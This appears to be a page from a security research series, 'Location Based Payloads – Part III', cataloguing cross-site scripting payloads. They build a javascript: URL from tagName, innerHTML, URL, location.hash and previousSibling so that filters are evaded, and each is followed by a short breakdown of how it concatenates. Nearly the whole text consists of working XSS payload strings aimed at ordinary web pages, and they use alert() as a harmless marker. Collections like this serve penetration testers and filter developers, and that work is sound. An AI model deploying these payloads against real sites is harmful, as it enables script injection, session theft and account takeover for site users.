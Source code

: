 Location Based Payloads – Part III

– Location
– Location Self
– Location Self Plus

before < [itself [inside]] > after # hash
Before: everything before the tag.
Itself: anything that uses the tag name.
Inside: any attribute inside the tag.
After: everything after the tag until hash.
Hash: everything after the # sign.

1) Location

1.1) Location Itself+After+Hash (tagName+innerHTML+location.hash)

<javascript onclick=location=tagName%2binnerHTML%2blocation.hash>:/*click me!#*/alert(9)
<javascript onclick=location=tagName%2binnerHTML%2blocation.hash>:'click me!#'-alert(9)

1.2) Location Itself+Hash (tagName+URL)

<javascript: onclick=location=tagName%2bURL>click me!#%0Aalert(1)
javascript: + http://domain/page?p=<javascript: onclick=location=tagName%2bURL>click me!#%0Aalert(1)
<javascript:"-' onclick=location=tagName%2bURL>click me!#'-alert(1)
javascript:"-' + http://domain/page?p=<javascript:"-' onclick=location=tagName%2bURL>click me!#'-alert(1)

1.3) Location After+Hash (innerHTML+URL)

<j onclick=location=innerHTML%2bURL>javascript:"-'click me!</j>#'-alert(1)
javascript:"-'click me! + http://domain/page?p=<j onclick=location=innerHTML%2bURL>javascript:"-'click me!</j>#'-alert(1)
<j onclick=location=innerHTML%2bURL>javascript:</j>#%0Aalert(1)
javascript: + http://domain/page?p=<j onclick=location=innerHTML%2bURL>javascript:</j>#%0Aalert(1)

1.4) Location Itself+After+Hash (tagName+innerHTML+URL)

<javas onclick=location=tagName%2binnerHTML%2bURL>cript:"-'click me!</javas>#'-alert(1)
javas + cript:"-'click me! + http://domain/page?p=<javas%20onclick=location=tagName%2binnerHTML%2bURL>cript:"-'click me!</javas>#'-alert(1)
<javas onclick=location=tagName%2binnerHTML%2bURL>cript:</javas>#%0Aalert(1)
javas + cript: + http://domain/page?p=<javas onclick=location=tagName%2binnerHTML%2bURL>cript:</javas>#%0Aalert(1)

1.5) Location Itself+Before (tagName+previous.Sibling)

"-alert(1)<javascript:" onclick=location=tagName%2bpreviousSibling.nodeValue>click me!
javascript:" + "-alert(1)

1.6) Location Itself+After+Before (tagName+innerHTML+previous.Sibling)

"-alert(1)<javas onclick=location=tagName%2binnerHTML%2bpreviousSibling.nodeValue>cript:"click me!
javas + cript:" + "-alert(1)

1.7) Location After+Itself (innerHTML+outerHTML)

<alert(1)<!– onclick=location=innerHTML%2bouterHTML>javascript:1/*click me!*/</alert(1)<!–>
javascript:1/*click me!*/ + <alert(1)<!– onclick=location=innerHTML%2bouterHTML>
<j 1="*/""-alert(1)<!– onclick=location=innerHTML%2bouterHTML>javascript:/*click me!
javascript:/* + <j 1="*/""-alert(1)<!– onclick=location=innerHTML%2bouterHTML>
